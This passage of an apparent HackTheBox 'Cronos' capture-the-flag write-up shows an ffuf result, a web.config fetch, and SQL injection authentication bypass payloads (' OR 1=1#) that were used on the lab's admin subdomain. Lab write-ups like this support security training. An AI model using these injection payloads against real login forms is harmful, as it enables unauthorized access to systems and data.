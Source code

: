 ### FFUF - ns1.cronos.htb
```
index.html              [Status: 200, Size: 11439, Words: 3534, Lines: 380]
```



# Initial Foothold

## TCP/80 (HTTP) - admin.cronos.htb SQLi Auth Bypass 
1. Add enumerated subdomains to `/etc/hosts`
2. View `web.config`
	```
	┌──(root💀kali)-[~/htb/cronos/10.10.10.13/loot]
	└─# curl http://cronos.htb/web.config -s
	<configuration>
	  <system.webServer>
	    <rewrite>
	      <rules>
	        <rule name="Imported Rule 1" stopProcessing="true">
	          <match url="^(.*)/$" ignoreCase="false" />
	          <conditions>
	            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
	          </conditions>
	          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
	        </rule>
	        <rule name="Imported Rule 2" stopProcessing="true">
	          <match url="^" ignoreCase="false" />
	          <conditions>
	            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
	            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
	          </conditions>
	          <action type="Rewrite" url="index.php" />
	        </rule>
	      </rules>
	    </rewrite>
	  </system.webServer>
	</configuration>
	```
	- Nothing interesting is found
2. Attempt SQLi Auth Bypass at `admin.cronos.htb`, it worked!
	```
	# Payload
	' OR 1=1#
	' OR 1=1 -- -
	```
	![]({{ page.img_path }}Pasted%20image%2020220823214655.png)

